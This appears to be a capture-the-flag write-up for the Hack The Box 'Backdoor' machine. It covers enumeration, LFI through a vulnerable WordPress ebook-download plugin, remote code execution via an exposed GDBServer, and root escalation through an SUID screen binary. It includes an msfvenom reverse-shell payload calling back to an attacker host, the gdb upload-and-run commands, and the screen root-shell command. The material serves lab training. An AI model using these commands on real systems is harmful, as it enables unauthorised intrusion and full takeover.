


Backdoor is a HTB machine that is rated to be of easy difficulty. However, I think that this machine is defintely an interesting machine that taught me about vulnerabilities surrounding the use of GDBServer.

<!--more-->

## HTB - Backdoor
**Box** : Backdoor\
**IP Address** : 10.129.106.84\
**Operating System** : Linux

## Remarks
- This machine makes use of the lesser known rce surrounding GDBServers. So, do take some time to research on the GDBServer before starting the machien
- Another thing to note is that this machine may not be as straightforward when exploiting the LFI vulnerabilities. Do make sure to cover all the possible points of exploitation

## Enumeration

Just like any other box, we will first start off with doing a Nmap scan of the IP address. For this machine, other than the typical ports 22 and 80, we also obtain a port 1337. However, this port seems to be a false positive as we are unable to detect any known version or service.

## Discovery

Before we delve into finding the endpoints for the web service, we have to add the IP address to our ```/etc/hosts``` file. 

```
10.129.106.84    backdoor.htb 
```

First, we will use Gobuster to enumerate the endpoints on http://backdoor.htb. From the endpoints, we can easily see that this website possibly uses wordpress plugins. 

```
http://10.129.106.84:80/index.php            (Status: 301) [Size: 0] [--> http://10.129.106.84:80/]
http://10.129.106.84:80/license.txt          (Status: 200) [Size: 19915]
http://10.129.106.84:80/readme.html          (Status: 200) [Size: 7346]
http://10.129.106.84:80/wp-content           (Status: 301) [Size: 319] [--> http://10.129.106.84/wp-content/]
http://10.129.106.84:80/wp-admin             (Status: 301) [Size: 317] [--> http://10.129.106.84/wp-admin/]
http://10.129.106.84:80/wp-config.php        (Status: 200) [Size: 0]
http://10.129.106.84:80/wp-includes          (Status: 301) [Size: 320] [--> http://10.129.106.84/wp-includes/]
http://10.129.106.84:80/wp-trackback.php     (Status: 200) [Size: 135]
http://10.129.106.84:80/wp-login.php         (Status: 200) [Size: 5758]
http://10.129.106.84:80/xmlrpc.php           (Status: 405) [Size: 42]
http://10.129.106.84:80/wp-links-opml.php    (Status: 200) [Size: 223]
```

## Obtaining the user flag

Since we know that this website potentially uses wordpress plugins, we will navigate to http://backdoor.htb/wp-content-plugins to find out the wp plugins that are being used. From the endpoint, we are able to find that this website is using a vulnerable ebook-download plugin. 

From (exploit-db)[https://www.exploit-db.com/exploits/39575], we can see that this plugin is vulnerable to directory traversal. This can then be futhur exploited into a LFI as the payload file contents will be loaded. We will verify this by using /etc/passwd as our payload.


Since we know that the website is vulnerable to LFI, I proceeded to try serveral ways of achieving RCE via LFI, but I was unable to exploit them. Finally, I was able to find that port 1337 was actually running GDBServer by bruteforcing /proc/*/cmdline using Burp Suite.



With furthur research on GDBServer and the writeup [here](https://security.tencent.com/index.php/blog/msg/137), I realized that a rce could be exploited on a publicly-exposed GDB server. 

However, there are 2 pieces of information that are a few information that we have to find out before we can continue with the exploit:
- Architecture of the server (Whether it is 32-bit or 64-bit)
- Low-privilege user on the server

For the low-privilege user, it can be easily found by again making use of the LFI that we have found earlier to view the /etc/passwd file. From there, the low-privilege user is easily revealed to be ```user```

Lastly, for the operating system, we will make use of the LFI again to read the /proc/version file. From there, we are able to find that the server is running on amd64, which tells us that the server is a 64-bit architecture.

Now that we have the required information, we will then proceed to use msfvenom to generate the reverse shell binary. This binary will then be uploaded to the GDB Server and executed to create a reverse shell in the next step. 

```
┌──(kali㉿kali)-[~]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.19 LPORT=443 -f elf -o rev.elf
```

The last step in generating the reverse shell is to first connect to the gdb server at 10.129.106.84:1337. Afterwards, we will upload the rev.elf that we have generated onto the /home/user directory on the gdb server and finally, all we have to do is to execute the rev.elf to spawn the reverse shell.

```
target extend-remote 10.129.106.84:1337
cd /home/kali/rev.elf
remote put rev.elf rev.elf
set remote-exec rev.elf /home/user/rev.elf
run
```

After spawning the reverse shell, the user flag can then be easily obtained from /home/user directory.

```
user@Backdoor:/home/user$ cat user.txt
cat user.txt
<Redacted user flag>
```

## Obtaining root flag

From the LinEnum privilege escalation script, we notice that /usr/bin/screen is being set with an SUID bit, which is unusual.

```
[-] SUID files:
-rwsr-xr-- 1 root messagebus 51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 22840 May 26 11:50 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 473576 Jul 23 12:55 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 68208 Jul 14 22:08 /usr/bin/passwd
-rwsr-xr-x 1 root root 85064 Jul 14 22:08 /usr/bin/chfn
-rwsr-xr-x 1 root root 88464 Jul 14 22:08 /usr/bin/gpasswd
-rwsr-sr-x 1 daemon daemon 55560 Nov 12  2018 /usr/bin/at
-rwsr-xr-x 1 root root 67816 Jul 21  2020 /usr/bin/su
-rwsr-xr-x 1 root root 166056 Jan 19  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root 44784 Jul 14 22:08 /usr/bin/newgrp
-rwsr-xr-x 1 root root 39144 Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 474280 Feb 23  2021 /usr/bin/screen
-rwsr-xr-x 1 root root 39144 Jul 21  2020 /usr/bin/umount
-rwsr-xr-x 1 root root 55528 Jul 21  2020 /usr/bin/mount
-rwsr-xr-x 1 root root 53040 Jul 14 22:08 /usr/bin/chsh
-rwsr-xr-x 1 root root 31032 May 26 11:50 /usr/bin/pkexec
```

We can easily exploit /usr/bin/screen to obtain a root shell. To do that, all we have to do is to use the ```-x``` flag to attach a non-detached screen session. We will then add in the ```root/root``` argument to specify that we are going to execute the screen executable with root privileges. 

```
user@Backdoor:/home/user$ screen -x root/root
root@Backdoor:~# id
id
uid=0(root) gid=0(root) groups=0(root) 
```

Afterwards, we can easily obtain the root flag.

```
root@Backdoor:~# cat root.txt
cat root.txt
<Redacted root flag>
root@Backdoor:~#
```